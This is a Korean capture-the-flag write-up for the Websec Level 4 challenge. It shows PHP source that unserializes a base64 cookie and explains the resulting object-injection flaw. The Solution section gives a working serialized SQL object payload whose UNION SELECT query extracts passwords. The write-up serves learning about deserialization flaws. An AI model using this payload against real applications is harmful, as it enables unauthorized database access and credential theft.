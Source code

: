 ```yaml
---
title : "Websec - Level 4"
excerpt : "Websec - Level 4"
toc : true
toc_sticky : true
categories :
  - Websec
tags :
  - PHP object injection
---
```


## 1. Source code
```php
$sql = new SQL();
$sql->query = 'SELECT username FROM users WHERE id=';
if (isset ($_COOKIE['leet_hax0r'])) {
    $sess_data = unserialize (base64_decode ($_COOKIE['leet_hax0r']));
    try {
        if (is_array($sess_data) && $sess_data['ip'] != $_SERVER['REMOTE_ADDR']) {
            die('CANT HACK US!!!');
        }
    } catch(Exception $e) {
        echo $e;
    }
```
SQL 클래스의 소멸자 
```php
public function execute() {
        return $this->conn->query ($this->query);
    }

public function __destruct() {
        if (!isset ($this->conn)) {
            $this->connect ();
        }
        
        $ret = $this->execute ();
        if (false !== $ret) {    
            while (false !== ($row = $ret->fetchArray (SQLITE3_ASSOC))) {
                echo '<p class="well"><strong>Username:<strong> ' . $row['username'] . '</p>'; # 이 부분 잊지 말기. 잊으면 바보같이 뻘짓함.
            }
        }
    }
```

## 2. Vulnerability

이 문제는 unserialize 함수를 이용한 **PHP object injection** 문제다.  
자세한 내용은 [PHP Object Injection](https://blog.do9.kr/150)  
**unserialize** 함수는 serialize된 문자열을 PHP 값으로 반환해주는 함수다.  
자세한 내용은 [PHP Serialize/Unserialize](http://chongmoa.com/php/6902)

코드를 보면 base64인코딩 된 쿠키 값을 디코딩 한 후 unserialize해서 변수에 담는다. **그 다음 주목할 부분은 try catch 구문이다.**
sess_data 변수 값이 배열이 아니라면 catch 구문으로 이동을 하고 예외상황을 출력한다. 이 부분이 unserialize 함수를 이용한 취약점이 터지는 곳이다.

## 3. Solution

쿠키 값에 SQL 객체를 serialize한 뒤 base64 인코딩 한 값을 줘야 한다. 
우선 플래그를 보려면 SQL 객체의 query 변수 값은 이렇게 되어야 한다.  
```select username from users where id=1 union select password from users where id=1```  
SQL 객체를 serialize를 해주면 이렇게 된다.  
```O:3:"SQL":1:{s:5:"query";s:81:"select username from users where id=1 union select password from users where id=1";}```  
이 문자열을 base64인코딩 해줘서 쿠키값으로 주면 catch 구문에서 sess_data 값을 출력을 해주므로 SQL 객체를 실행시켜서 소멸자에서 query를 실행시켜서 username에 플래그 값이 나온다.
 

